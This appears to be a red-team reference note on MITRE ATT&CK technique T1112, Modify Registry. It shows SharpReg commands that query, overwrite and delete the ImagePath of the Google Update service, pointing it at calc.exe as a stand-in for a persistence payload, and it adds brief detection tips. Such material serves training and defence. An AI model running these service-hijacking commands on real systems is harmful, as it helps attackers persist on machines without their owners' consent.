  # [Modify Registry](https://attack.mitre.org/techniques/T1112/)

## Exploit Description:
Adversaries may interact with the Windows Registry to hide configuration information within Registry keys, remove information as part of cleaning up, or as part of other techniques to aid in persistence and execution.

## Exploit syntax:

```powershell
# Example of querying 

sharpreg query HKLM\SYSTEM\CurrentControlSet\services\gupdatem | poshgrep ImagePath 

# Here we change the key that we just queried above. We notated what it was before we make changes

sharpreg create "HKLM\SYSTEM\CurrentControlSet\Services\gupdatem"  "ImagePath" "C:\Windows\WinSxS\x86_microsoft-windows-calc_31bf3856ad364e35_10.0.14393.0_none_7b13d13279112b2e\calc.exe" EXPAND_SZ

# If necessary, you may change the key back to its original state:

sharpreg create "HKLM\SYSTEM\CurrentControlSet\Services\gupdatem" "ImagePath" "C:\Program Files\Google\Update\GoogleUpdate.exe /medsvc" EXPAND_SZ 

# Also possible to just outright delete a key

sharpreg delete HKLM\SYSTEM\CurrentControlSet\Services\gupdatem ImagePath

```

## Detection Technique:
* Investigate any reg command. Reg is for registry querying and manipulation
* Event ID 4657 is made when the registry is modified

## Resources
https://github.com/jnqpblc/SharpReg

https://malware.news/t/introducing-poshc2-v8-0/58825